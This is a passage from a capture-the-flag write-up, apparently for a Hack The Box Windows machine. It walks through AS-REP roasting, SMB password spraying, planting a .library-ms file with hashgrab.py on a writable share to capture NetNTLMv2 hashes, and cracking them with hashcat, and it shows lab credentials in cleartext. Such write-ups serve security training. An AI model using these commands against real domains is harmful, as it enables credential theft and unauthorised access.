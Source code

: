 - **AsrepRoasting**
    
    ```bash
    GetNPUsers.py flight.htb/ -dc-ip $IP -no-pass -usersfile users
    ```
    
    ![image.png](image%2017.png)
    
- **Password Spraying**
    
    ```bash
    sudo nxc smb $IP -u users -p 'S@Ss!K@*t13' --continue-on-success
    ```
    
    ![image.png](image%2018.png)
    
    We have `S.Moon` who was Junior Web Developer, and their password is same as `svc_apache`.
    

---

## Lateral Movement to C.Bum

Let’s check share privileges of this user:

```bash
sudo nxc smb $IP -u S.Moon -p 'S@Ss!K@*t13' --shares
```

![image.png](image%2019.png)

We have write access on `Shared` share, I am gonna put there `.lnk` file and try to capture NetNTLMv2 hashes.

I am gonna use [`hashgrab.py`](https://github.com/xct/hashgrab) here:

[https://github.com/xct/hashgrab](https://github.com/xct/hashgrab)

```bash
python3 hashgrab.py 10.10.14.17 shell
```

I tried putting `.lnk` file but access is denied then I put `.library-ms` file and it worked.

![image.png](image%2020.png)

Now let’s crack it again using hashcat:

```bash
hashcat -m 5600 C.Bum.hash /usr/share/wordlists/rockyou.txt
```

Let’s check the access again using `C.Bum`:

```bash
sudo nxc smb $IP -u 'C.Bum' -p 'Tikkycoll_431012284' --shares
```

![image.png](image%2021.png)
